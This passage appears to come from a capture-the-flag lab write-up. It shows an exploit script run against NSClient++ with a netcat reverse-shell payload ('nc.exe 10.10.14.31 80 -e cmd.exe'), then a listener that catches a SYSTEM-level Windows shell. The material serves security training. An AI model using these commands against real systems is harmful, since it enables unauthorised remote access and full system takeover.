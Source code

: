 ```bash
└─$ python3 exploit.py -t 127.0.0.1 -P 9999 -p ew2x6SsGTxjRwXOT -c "c:\temp\nc.exe 10.10.14.31 80 -e cmd.exe"
[!] Targeting base URL https://127.0.0.1:9999
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: UEtBeCgogGpMN)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
```
Get a shell.
```bash
┌──(kali㉿kali)-[10.10.14.31]-[~/Desktop]
└─$ sudo nc -lvnp 80                  
listening on [any] 80 ...
connect to [10.10.14.31] from (UNKNOWN) [10.129.133.101] 49749
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```